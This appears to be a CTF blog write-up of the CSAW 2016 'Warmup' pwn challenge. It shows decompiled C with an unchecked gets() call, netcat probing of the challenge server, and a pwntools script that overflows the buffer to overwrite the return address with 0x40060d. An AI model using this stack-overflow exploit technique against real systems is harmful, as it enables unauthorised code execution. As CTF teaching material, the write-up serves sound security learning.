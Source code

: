 ```yaml
---
title: '[CSAW 2016] PWN: Warmup Writeup'
author: Megabeets
type: posts
date: 2016-09-18T22:01:55+00:00

categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - PWN
  - Writeups

---
```

#### **Description:**

> _So you want to be a pwn-er huh? Well let&#8217;s throw you an easy one 😉_  
> _nc pwn.chal.csaw.io 8000_
> 
> _<a class="chal-file" href="https://ctf.csaw.io/stat./8ef117ec4c05f79aebdf043f3d003c2b/warmup" target="_blank">warmup</a>_

Let&#8217;s connect to the server and play with it a little bit:

```sh
[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
>Beet

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
>Beetttttttttttttttttttttt

[Meabeets] /tmp/CSAW/Warmup# nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


The program says &#8220;WOW:&#8221; followed by a memory address. This address is probably the address of the function we need to execute. Let&#8217;s open IDA to view the code:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	  char s; // [sp+0h] [bp-80h]@1
	  char v5; // [sp+40h] [bp-40h]@1

	  write(1, "-Warm Up-\n", 0xAuLL);
	  write(1, "WOW:", 4uLL);
	  sprintf(&s, "%p\n", 4195853LL);
	  write(1, &s, 9uLL);
	  write(1, (const void *)'@\aU', 1uLL);
	  return gets(&v5, '>');
}b
```


This is a classic BOF (Buffer Overflow) case. The main method uses the `gets()` function to receive the given input and returns it. `gets()` is storing 64 characters (40h). Because there is no validation of the given string we need to supply an input that will exploit the program and make it jump to the wanted address: 0x40060d.

A short python script will do the job:

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
print r.recv()
r.sendline("A"*72 + "\x0D\x06\x40\x00\x00\x00\x00\x00")
print r.recvline()
```


And we got the flag: _FLAG{LET\_US\_BEGIN\_CSAW\_2016}_

